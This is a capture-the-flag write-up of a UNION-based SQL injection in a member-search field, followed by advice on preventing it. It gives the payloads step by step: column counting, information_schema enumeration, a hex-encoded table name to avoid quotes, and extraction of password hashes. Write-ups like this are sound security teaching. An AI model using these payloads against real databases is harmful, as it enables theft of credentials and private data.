

## how to find the flag

The vulnerability was found in the `Search Member by ID` functionality on the **member page**.

The application directly concatenates the user-provided `id` parameter into a SQL query
without proper sanitization, making it vulnerable to a UNION-based SQL injection.

First, the number of columns used in the original query was identified using `ORDER BY`,
which revealed that the query returns two columns.
```sql
5 ORDER BY 3 --
```

Now I now that both columns are reflected anyways in the UI as 2 information are displayed the `First_name` and the `Surname`.

Using the system database information_schema, which contains metadata about all databases, the tables belonging to the current database were enumerated.
```sql
-1 UNION SELECT 1, group_concat(table_name)
FROM information_schema.tables
WHERE table_schema = database() --
```

This step revealed the presence of a table named users.

Once the users table was identified, its columns were enumerated in order to locate potentially useful data.
```sql
-1 UNION SELECT 1, group_concat(column_name)
FROM information_schema.columns
WHERE table_name = 0x7573657273 --
```
The table name is represented in hexadecimal to avoid the use of quotes, which may be filtered.
```bash
echo -n users | xxd -p
```
This query revealed several columns, including user_id, first_name, last_name, town, country, planet, Commentaire, and countersign.

Then I decided to see the content of each column by repeating this command:
```sql
-1 UNION SELECT 1, Commentaire from users
```



Following these instructions, the corresponding password hash stored in the
`countersign` column for the user named `Flag` was retrieved. The instructions specified
that the value had to be decrypted, converted to lowercase, and hashed again using
**SHA-256** in order to obtain the final flag.

```sql
-1 UNION SELECT first_name, countersign FROM users --
```

## how to avoid

This vulnerability occurs because user input is directly injected into a SQL query
without the use of prepared statements or strict input validation.

The SQL injection allowed not only the extraction of authentication-related data, but
also the disclosure of application logic stored in database fields. In this case, the
`Commentaire` column contained instructions required to transform a stored password hash
into the final flag.

In real-world applications, SQL injection vulnerabilities can lead to full database
compromise, including data exfiltration, authentication bypass, and leakage of business
logic.

To prevent this issue, parameterized queries must be used, and database content should
never be relied upon to store sensitive logic or secrets. Validate input types and
bounds at the API boundary (for example, `id` must be an integer), and return generic
error messages so SQL details are not exposed. Use least-privilege database accounts and
monitor suspicious query patterns to reduce impact if an injection attempt occurs.
